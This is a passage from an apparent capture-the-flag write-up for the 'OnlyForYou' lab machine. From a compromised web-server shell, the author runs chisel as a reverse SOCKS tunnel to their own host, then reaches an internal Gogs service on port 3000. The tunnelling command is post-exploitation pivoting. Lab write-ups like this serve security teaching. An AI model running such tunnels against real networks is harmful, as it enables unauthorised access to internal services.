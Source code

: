 On OnlyForYou, I’ll run it in client mode:

    
    
    www-data@only4you:/dev/shm$ ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:socks
    

The connection reaches the server:

    
    
    2023/04/24 14:26:27 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
    

I’ll set up FoxyProxy to use this:

![image-20230424142926227](../img/image-20230424142926227.png)

#### Gogs - TCP 3000

The service on port 3000 is Gogs, a opensource Git solution:

    
    
    www-data@only4you:/$ curl localhost:3000
    <!DOCTYPE html>
    <html>                                              
    <head data-suburl="">
            <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
            <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    
                    <meta name="author" content="Gogs" />
                    <meta name="description" content="Gogs is a painless self-hosted Git service" />
                    <meta name="keywords" content="go, git, self-hosted, gogs">
    ...[snip]...
    

Loading it in Firefox shows the Gogs page:
